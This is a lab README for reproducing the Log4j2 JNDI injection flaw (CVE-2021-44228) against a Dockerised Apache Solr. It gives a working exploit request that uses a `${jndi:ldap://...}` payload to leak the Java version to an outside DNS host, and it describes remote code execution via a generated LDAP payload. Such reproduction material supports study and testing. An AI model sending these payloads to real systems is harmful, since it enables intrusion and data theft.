

# Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:


Because the target JDK version is below 8u191, we can use `rmi://` or `ldap://` to run the Java bytecode directly.

We use the [Java Chains](https://github.com/vulhub/java-chains) tool for vulnerability reproduction. To start Java Chains, we access the [Quick Start](https://java-chains.vulhub.org/docs/guide). Finally, referring to the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload), we set the command to be executed as `touch /tmp/success` and generate the JNDI LDAP URL Payload. Then, we replace it into the data packet mentioned above to exploit the vulnerability.


As you can see, `touch /tmp/success` is succesful executed:


